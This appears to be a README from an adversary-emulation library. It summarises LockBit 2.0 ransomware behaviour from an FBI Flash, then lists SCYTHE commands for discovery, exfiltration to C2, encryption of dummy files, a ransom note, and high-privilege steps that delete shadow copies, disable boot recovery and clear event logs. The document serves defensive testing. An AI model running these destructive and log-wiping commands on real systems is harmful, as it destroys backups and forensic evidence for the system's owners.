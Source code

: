 # LockBit

## Cyber Threat Intelligence
LockBit 2.0 operates as an affiliate-based Ransomware-as-a-Service (RaaS) and employs a wide variety of tactics, techniques, and procedures (TTPs), creating significant challenges for defense and mitigation. LockBit 2.0 ransomware compromises victim networks through a variety of techniques, including, but not limited to, purchased access, unpatched vulnerabilities, insider access, and zero day exploits. [^1]

Upon execution, Lockbit 2.0 determines the system and user language settings and only targets those not matching a set list of languages that are Eastern European. If an Eastern European language is detected, the program exits without infection. As infection begins, Lockbit 2.0 deletes log files and shadow copies residing on disk. Lockbit 2.0 enumerates system information to include hostname, host configuration, domain information, local drive configuration, remote shares, and mounted external storage devices.Lockbit 2.0 attempts to encrypt any data saved to any local or remote device but skips files associated with core system functions.

## Automated Emulation
*** Note this threat is impactful if running with high privilege ***
1. Download and import the threat in JSON format to your SCYTHE instance
2. Download the Virtual File System (VFS) files under LockBit/VFS
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/threats/LockBit
4. Create a new campaign with HTTPS.
5. Import from Existing Threat: LockBit
6. Launch the Campaign

## Manual Emulation

Launch a campaign with the C2 parameters you wish to use. 

Once you have a shell, execute the following procedures:
```
loader --load run
```
Determine the language of the target operating system:
```
run reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Nls\Language
```
LockBit does not execute on systems set with Eastern European languages. The return of the reg query should not match
```
2092 1068 1067 1059 1079 1087 1088 2073 1049 1064 1090 2115 1091
```
Perform discovery procedures:
```
run whoami
loader --load printscr
printscr --window Desktop
loader --load sysinfo
sysinfo
loader --load processes
processes
run cmd /c dir %USERPROFILE%\Documents
run net use
```
Prepare the system for impact TTPs:
```
run cmd /c mkdir "%USERPROFILE%\Desktop\LockBit"
loader --load file
file --create --path "%USERPROFILE%\Desktop\LockBit\target_files.xls" --size 5MB --count 10 --random
```
Exfiltrate:
```
loader --load upsh
upsh --cmd "Compress-Archive -Path $env:userprofile\Desktop\LockBit -CompressionLevel Optimal -Destination $env:userprofile\Desktop\LockBit\exfil.zip"
loader --load uploader
uploader --remotepath "%USERPROFILE%\Desktop\LockBit\exfil.zip"
```
Encrypt the files:
```
file --create --path "%USERPROFILE%\Desktop\LockBit_Ransomware.hta" --size 1MB --random
loader --load crypt
crypt --target "%USERPROFILE%\Desktop\LockBit\" --encrypt --password "LockBit" --erase --extension lockbit
```
Download the ransom note and open it:
```
loader --load downloader
downloader --src "VFS:/shared/threats/LockBit/Restore-My-Files.txt" --dest "%USERPROFILE%\Desktop\LockBit\Restore-My-Files.txt"
run powershell notepad "%USERPROFILE%\Desktop\LockBit\Restore-My-Files.txt"
```
Clean up:
```
run cmd /c rmdir /Q /S ""%USERPROFILE%\Desktop\LockBit""
run cmd.exe /c del "%USERPROFILE%\Desktop\LockBit_Ransomware.hta"
```
If running with high privilege and want to run the risky TTPs:
```
controller --integrity
run vssadmin Delete Shadows /All /Quiet
run bcdedit /set {default} recoveryenabled No
run bcdedit /set {default} bootstatuspolicy ignoreallfailures
run wmic SHADOWCOPY /nointeractive
run wevtutil cl security
run wevtutil cl system
run wevtutil cl application
run vssadmin delete shadows /all /quiet & wmic shadowcopy delete & bcdedit /set {default} bootstatuspolicy ignoreallfailures & bcdedit /set {default} recoveryenabled no
```
Shutdown the payload
```
controller --shutdown
```

## References
- [FBI Flash](https://www.ic3.gov/Media/News/2022/220204.pdf)
[^1]: [FBI Flash](https://www.ic3.gov/Media/News/2022/220204.pdf)
